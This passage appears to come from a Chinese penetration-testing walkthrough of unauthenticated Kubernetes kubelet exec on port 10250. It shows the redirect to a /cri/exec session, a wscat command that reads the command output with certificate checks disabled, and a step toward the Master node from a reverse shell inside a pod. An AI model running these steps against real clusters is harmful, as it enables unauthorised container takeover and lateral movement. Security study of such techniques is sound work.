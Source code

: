 ```plain
> X-Stream-Protocol-Version: v2.channel.k8s.io
> X-Stream-Protocol-Version: channel.k8s.io
> 
< HTTP/1.1 302 Found
< Location: /cri/exec/zEKYcaZt                          #查看执行结果
< Date: Wed, 07 Aug 2019 06:01:42 GMT
< Content-Length: 0
< Content-Type: text/plain; charset=utf-8
< 
* Connection #0 to host 192.168.4.68 left intact
[root@localhost ~]#
```

执行如下语句查看命令执行结果

```plain
[root@localhost ~]# docker run -it --rm joshgubler/wscat -c "https://192.168.4.68:10250/cri/exec/zEKYcaZt" --no-check
```

[![](assets/1699842580-c558581c5eba734c4c3521ce28c120d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171431-e7d3cdb6-7316-1.png)  
Step 7：连接K8s Master地址  
此时我们是在Node的Pod里，在反弹的Shell里查看Master的内部IP  
[![](assets/1699842580-6bde7a6d4b7b6266caa7d9221204dbdd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171442-eecdfcfe-7316-1.png)  
尝试连接K8s Master地址

